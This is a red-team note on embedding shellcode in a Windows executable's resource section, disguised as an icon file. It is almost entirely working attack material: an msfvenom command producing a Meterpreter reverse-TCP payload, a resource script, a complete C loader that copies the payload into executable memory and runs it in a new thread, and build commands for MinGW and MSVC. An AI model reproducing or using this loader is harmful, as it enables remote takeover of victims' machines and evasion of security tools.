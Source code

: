# Resource Icon

Determines the location of a resource with the specified type and name in the specified module.

(LoadResource) Retrieves a handle that can be used to obtain a pointer to the first byte of the specified resource in memory.

(SizeofResource)  Retrieves the size, in bytes, of the specified resource.

```
$ msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<IP> lport=<IP> exitfunc=thread -f raw -o shellcode.ico
```

```c
#define SC_ICON 2583
SC_ICON RCDATA "shellcode.ico"
```

```c
#include <windows.h>

#define SC_ICON 2583
int main() {
    // Find shellcode data
    HRSRC handle_resource = FindResource(NULL, MAKEINTRESOURCE(SC_ICON), RT_RCDATA);

    // Load shellcode
    HGLOBAL handle_global = LoadResource(NULL, handle_resource);

    // Get pointer to shellcode
    LPVOID memory_pointer = LockResource(handle_global);

    // Length of shellcode
    DWORD length = SizeofResource(NULL, handle_resource);

    // Allocate the memory
    LPVOID execute_memory = VirtualAlloc(NULL, length, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    RtlMoveMemory(execute_memory, memory_pointer, length);

    DWORD old_protection = 0;
    BOOL returned_virtual_protection = VirtualProtect(execute_memory, length, PAGE_EXECUTE_READ, &old_protection);

    if(returned_virtual_protection != NULL) {
        HANDLE thread_handle = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)execute_memory, NULL, NULL, NULL);

        WaitForSingleObject(thread_handle, INFINITE);
    }
}
```

```
$ x86_64-w64-mingw32-windres resource.rc resource.o

$ x86_64-w64-mingw32-gcc -o embedded-payload.exe resource.o payload.c
```

```
C:\> rc resource.rc

C:\> cvtres /machine:x64 /out:resource.o resource.res

C:\> cl.exe /nologo /0x /W0 /GS- /DNDEBUG /Tc:payload.c /link /out:embedded-payload.exe /subsystem:console /machine:x64 resource.o
```

---
## References

### Backlinks

- [[01 - Command Line/E - Compilers/Windows/C|Compilers: C]]

### Github

- [WafflesExploit: Hide Payload in Images](https://github.com/WafflesExploits/hide-payload-in-images)

### Red Team Notes

- [Red Team Notes: Loading and Executing Shellcode From PE Resources](https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources)

### MalAPI

- [MalAPI: FindResourceA](https://malapi.io/winapi/FindResourceA)

- [MalAPI: FindResourceExA](https://malapi.io/winapi/FindResourceExA)

- [MalAPI: SizeOfResource](https://malapi.io/winapi/SizeOfResource)

- [MalAPI: LockResource](https://malapi.io/winapi/LockResource)

### Tenouk

- [Tenouk: Processes and Threads - Synchronization - Part 1](https://www.tenouk.com/ModuleV.html)

### Black-Hat-Zig

- [Black-Hat-Zig: `.rsrc `Section](https://black-hat-zig.cx330.tw/Basic-Payload-Management/Payload-Placement/dot_rsrc/)

### WafflesExploit

- [WafflesExploits: Concealing Payloads - Hiding Shellcode in Image Files with Python and C/C++](https://wafflesexploits.github.io/posts/Hide_a_Payload_in_Plain_Sight_Embedding_Shellcode_in_a_Image_file/)